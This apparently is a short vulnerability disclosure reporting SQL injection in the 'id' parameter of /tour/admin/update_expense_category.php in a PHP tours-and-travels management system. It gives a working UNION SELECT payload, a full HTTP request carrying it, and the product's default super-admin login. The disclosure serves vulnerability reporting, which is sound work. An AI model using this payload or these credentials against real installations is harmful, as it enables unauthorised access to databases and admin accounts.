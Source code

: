 # Online Tours & Travels management system v1.0 by mayuri_k has SQL injection

BUG_Author: Wybsignal

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /tour/admin/update_expense_category.php

Vulnerability location: /tour/admin/update_expense_category.php?id=, id

dbname = tour1

[+] Payload: /tour/admin/update_expense_category.php?id=1%27%20union%20select%201,database(),3--+ // Leak place ---> id

```sql
GET /tour/admin/update_expense_category.php?id=1%27%20union%20select%201,database(),3--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183012998-69bd5a95-3257-47ad-893b-bde828b230e1.png)

